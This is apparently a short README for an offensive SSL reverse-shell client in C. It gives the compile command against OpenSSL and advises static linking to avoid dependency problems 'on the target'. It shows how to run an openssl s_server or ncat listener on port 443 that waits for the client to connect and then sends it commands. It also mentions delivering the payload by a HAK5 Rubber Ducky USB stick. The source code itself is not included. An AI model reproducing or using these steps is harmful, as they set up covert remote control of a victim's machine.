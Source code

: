 
##Compilation and Use
  Before compiling , please make sure you have the OpenSSL dev package installed .</br>
Compile using : </br>
       <b> gcc -Wall -g -o shell shell.c -lssl -lcrypto </b></br>

   You will probably want to link statically against the library to avoid dependencies issues on the target. 

   You can either use [ncat](http://edoceo.com/cli/ncat) or any other tool with ssl support to send commands to the client .</br>
   To test the client, you can use openssl s_server utility on your server and wait for connections: </br>
       <b>openssl s_server -key key.pem -cert cert.pem -accept 443</b>
 
##Rubber Ducky Script
  This is a script that can be used to deliver your payload using HAK5 [Rubber Ducky USB stick](https://ducktoolkit.com).
